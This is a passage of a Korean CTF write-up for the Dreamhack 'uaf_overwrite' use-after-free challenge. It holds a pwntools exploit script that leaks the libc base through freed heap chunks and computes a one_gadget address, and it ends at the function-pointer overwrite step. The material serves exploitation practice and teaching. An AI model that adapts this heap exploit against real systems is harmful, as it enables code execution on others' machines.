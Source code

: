 `custom`에서 페이로드를 3번 보내는데, 이때 전부 `after(b': ', ...)`을 통해 보내면 차례대로 나오는 `printf("Size: ");`, `printf("Data: ");`, `printf("Data: %s\n", custom[c_idx]);`, `printf("Free idx: ");` 중 딱 세번째 `printf`의 `: `까지 짤려서,

`%s\n`을 통해 바로 `data\n`이 출력되고, `recvline()`으로 받을 수 있게 된다. (뒤에 `printf("Free idx: ");`가 출력되므로 신경쓸 필요 없어짐)

참고로, `sendafter(b': ')`는 `": : :"`라는 문자열에서 처음 `":"`를 만나면 바로 보낸다.

```
#!/usr/bin/env python3
# Name: uaf_overwrite.py
from pwn import *

p = remote("host3.dreamhack.games", 18315)


def human(weight, age):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b': ', str(weight).encode())
    p.sendlineafter(b': ', str(age).encode())

    # p.sendline(str(weight).encode())
    # p.sendline(str(age).encode())


def robot(weight):
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b': ', str(weight).encode())

    # p.sendline(b'2')
    # p.sendline(str(weight).encode())


def custom(size, data, idx):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b': ', str(size).encode())
    # 여긴 `scanf`가 아닌 `read`로 입력 받기 때문에 `send`로 보내야 함
    # 만약 `sendline`으로 보내면 data에 `\n`이 추가되서 출력되는 `data` 값이 달라져서 offset도 달라짐
    p.sendafter(b': ', data)
    p.sendlineafter(b': ', str(idx).encode())

    # p.sendline(b'3')
    # p.sendline(str(size).encode())
    # p.send(p64(data))
    # p.sendline(str(idx).encode())


# [1] Leak libc base
custom(0x500, b'random1', -1)  # 사이즈를 8바이트 단위로 `0x4f9 ~ 0x508` 까지는 같은 오프셋을 가리킴
custom(0x500, b'random2', 0)
custom(0x500, b'B', -1)
# data 값이 'B'가 아니라 'C'가 된다면, 아스키코드 기준 1이 커진 값이 입력되므로, offset은 0x3ebc42 가 아니라 0x3ebc43가 되야한다.
# 반대로 'A'라면, 0x3ebc41이어야 한다.

# custom(0x500, b'a'*0x8, -1)
# p.recvuntil(b'a'*0x8)

libc_base = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x3ebc42
og = libc_base + 0x10a41c  # 제약 조건을 만족하는 원가젯
# og = libc_base + 0x4f3ce
# og = libc_base + 0x4f3d5
# og = libc_base + 0x4f432

# [2] `robot->fptr` Overwrite
```